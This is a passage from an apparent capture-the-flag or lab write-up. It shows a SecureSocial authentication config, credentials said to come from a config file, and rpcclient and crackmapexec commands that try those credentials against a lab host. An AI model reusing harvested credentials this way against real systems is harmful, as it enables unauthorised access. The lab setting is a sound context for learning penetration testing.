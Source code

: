     securesocial {
        
        onLoginGoTo=/
        onLogoutGoTo=/login
        ssl=false
        
        userpass {      
          withUserNameSupport=false
          sendWelcomeEmail=true
          enableGravatarSupport=true
          signupSkipLogin=true
          tokenDuration=60
          tokenDeleteInterval=5
          minimumPasswordLength=8
          enableTokenJob=true
          hasher=bcrypt
    }

        cookie {
        #       name=id
        #       path=/login
        #       domain="10.129.2.59:9500"
                httpOnly=true
                makeTransient=false
                absoluteTimeoutInMinutes=1440
                idleTimeoutInMinutes=1440
        }   
    ```
  
  * While SMTP is not used in this box, this config file gives us the creds "alex:lol123!mD"

  * We can try these creds for RPC enumeration again:

    ```sh
    rpcclient -U 'alex%lol123!mD' 10.129.202.41
    # % is used as delimiter here
    # this works

    srvinfo
    # only this works
    # other commands give disconnected error

    # we can check other tools
    crackmapexec smb 10.129.202.41 --shares -u 'alex' -p 'lol123!mD'
    # this does not work as well
